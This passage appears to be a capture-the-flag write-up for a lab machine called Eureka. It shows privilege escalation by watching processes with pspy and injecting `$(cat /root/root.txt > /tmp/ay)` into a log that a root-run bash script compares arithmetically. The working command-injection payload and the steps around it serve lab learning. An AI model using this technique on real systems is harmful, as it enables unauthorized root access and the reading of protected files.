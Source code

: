 # miranda
Nothing on sudo -l.

Checking pspy64 shows that the `/opt/log_analyse.sh` is run by root every couple of seconds:
```bash
miranda-wise@eureka:~$ curl 10.10.14.16:5000/static/pspy64 -O
miranda-wise@eureka:~$ chmod +x pspy64
miranda-wise@eureka:~$ ./pspy64
...
2025/08/27 23:02:04 CMD: UID=0     PID=448005 | /bin/bash /opt/log_analyse.sh /var/www/web/cloud-gateway/log/application.log
```

We have `rwx` on the dir since miranda is in the developers group. So we can control what is on `application.log`.
```bash
miranda-wise@eureka:/var/www$ groups
miranda-wise developers
miranda-wise@eureka:/var/www$ ls -la /var/www/web/cloud-gateway/log/
total 48
drwxrwxr-x 2 www-data developers  4096 Aug 31 20:20 .
drwxrwxr-x 6 www-data developers  4096 Mar 18 21:17 ..
-rw-rw-r-- 1 www-data www-data   22160 Aug 31 23:15 application.log
-rw-rw-r-- 1 www-data www-data    5702 Apr 23 07:37 application.log.2025-04-22.0.gz
-rw-rw-r-- 1 www-data www-data    5956 Aug 31 20:20 application.log.2025-04-23.0.gz
```

Looking at the shell script the vulnerability is on:
```sh
// log_analyse.sh:60 ~ 61
if [[ "$existing_code" -eq "$code" ]]; then
```

We exploit it by adding this line to the log file: `HTTP Status: x[$(cat /root/root.txt > /tmp/ay)]`
```bash
miranda-wise@eureka:~$ echo 'HTTP Status: x[$(cat /root/root.txt > /tmp/ay)]' >> application.log
miranda-wise@eureka:~$ mv application.log /var/www/web/cloud-gateway/log/application.log
mv: replace '/var/www/web/cloud-gateway/log/application.log', overriding mode 0644 (rw-r--r--)? y
miranda-wise@eureka:~$ cat /tmp/ay
a62e1***************************
```
